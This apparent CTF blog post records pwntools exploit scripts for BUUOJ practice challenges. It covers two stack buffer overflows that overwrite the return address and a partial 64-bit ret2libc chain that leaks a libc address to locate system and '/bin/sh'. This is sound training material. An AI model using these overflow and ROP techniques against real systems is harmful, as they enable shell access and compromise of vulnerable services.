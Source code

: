 ```yaml
---
title: BUUOJ pwn(不定期更新)
date: 2019-12-12 11:37:00
tags: pwn
top: 3
---
```

在buuoj平台上做题的记录，一般情况下只记录能学到新东西的题  
同类型的题只记录一次  
有一些觉得比较典型的题，单独写，在此处贴链接  
主要看心情  

## 0x01 rip覆盖一下  
```Python
from pwn import *
context.log_level = 'debug'
p=remote("node3.buuoj.cn",27714)
payload = "a"*23 + p64(0x40118A)
p.sendline(payload)
p.interactive()
``` 

## 0x02 warmup_csaw_2016  
```Python
from pwn import*
#context.log_level = 'debug'
elf=ELF("./warmup_csaw_2016")
#p=process("./warmup_csaw_2016")
p=remote("node3.buuoj.cn",26890)
p.recvuntil(">")
payload = "a"*72 + p64(0x40060D)
p.sendline(payload)
sleep(0.1)
p.interactive()
``` 

## 0x03  ciscn_2019_n_1
很典型的64位ret2libc  
```Python
# -*- coding: utf-8 -*-
from pwn import*
#context.log_level = 'debug'
p=remote("node3.buuoj.cn",29434)
p=process('./ciscn_2019_n_1')
elf=ELF('./ciscn_2019_n_1')
libc=ELF('libc-2.27.so')

pop_rdi_ret = 0x0000000000400793 

payload = "a"*0x38 + p64(pop_rdi_ret) + p64(elf.got['__libc_start_main']) + p64(elf.plt['puts']) + p64(elf.symbols['main'])

p.recvuntil("number.\n")
p.sendline(payload)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "puts_addr:" + hex(puts_addr)
offset = puts_addr - libc.symbols['__libc_start_main']
sys_addr = offset + libc.symbols['system']
print "sys_addr:" + hex(sys_addr)
binsh_addr = libc.search('/bin/sh').next() + offset
```